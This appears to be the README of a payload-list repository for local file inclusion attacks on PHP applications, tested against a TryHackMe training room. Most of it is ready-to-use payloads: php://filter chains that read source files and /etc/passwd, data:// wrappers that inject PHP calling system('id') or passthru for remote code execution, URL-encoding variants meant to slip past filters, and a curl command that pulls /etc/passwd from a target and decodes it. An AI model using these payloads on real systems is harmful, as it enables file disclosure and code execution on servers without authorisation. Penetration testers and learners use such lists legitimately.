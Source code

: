 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

### Script for automatic payload generation
pending...

### Theory behind the payload values
#### `php://filter` wrapper
```php
php://filter/string.rot13/resource=* 
php://filter/string.toupper/resource=* 
php://filter/convert.base64-encode/resource=* 
php://filter/string.rot13|string.rot13/resource=*
php://filter/read=string.rot13|string.rot13/resource=*
php://filter/string.rot13|convert.base64-encode/resource=*
php://filter/convert.base64-encode|string.rot13/resource=*
php://filter/read=string.rot13|convert.base64-encode/resource=*
php://filter/read=convert.base64-encode|string.rot13/resource=*
php://filter/string.toupper|string.rot13|string.rot13/resource=*
php://filter/read=string.toupper|string.rot13|string.rot13/resource=*
php://filter/zlib.deflate/resource=*
php://filter/bzip2.compress/resource=*
php://filter/zlib.deflate|convert.base64-encode/resource=*
php://filter/bzip2.compress|convert.base64-encode/resource=*
```
- **payload variations derived from:**
1. usage of different PHP filters (https://www.php.net/manual/en/filters.php)
2. chaining filters using `|`
3. using `php://filter/read=` instead of `php://filter`


#### `data://filter` wrapper
```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
data:text/plain,<?php%20system('id');%20?>
data:text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data%3Atext%2Fplain%2C%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data://text/plain,<?php%20eval(\"system('id');\");%20?>
```
- **paylod variations derived from:**
1. using both base64 (`data://text/plain;base64`) and plain text input (`data://text/plain`, `data:text/plain`)
2. url encoding variations:
- encoding special chars, different parts of the payload, and encoding an already encoded (first layer with non special char) payload
 - `data://text/plain,<?php passthru('id'); ?>` -> `data://text/plain,%3C?php%20passthru('id');%20?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20passthru%28%27id%27%29%3B%20%3F%3E`  
 - `data://text/plain,<?php%20passthru('id');%20?>` -> `data://text/plain,%3C?php%2520passthru('id');%2520?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%2520passthru%28%27id%27%29%3B%2520%3F%3E`
   
3. utilizing various methods for achieving RCE: `system('id');`, `eval(\"system('id');\");`, `passthru(\"system('id');\");`

#### `php://stdin` wrapper
#### `expect://` wrapper
#### `zip://` wrapper

### Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
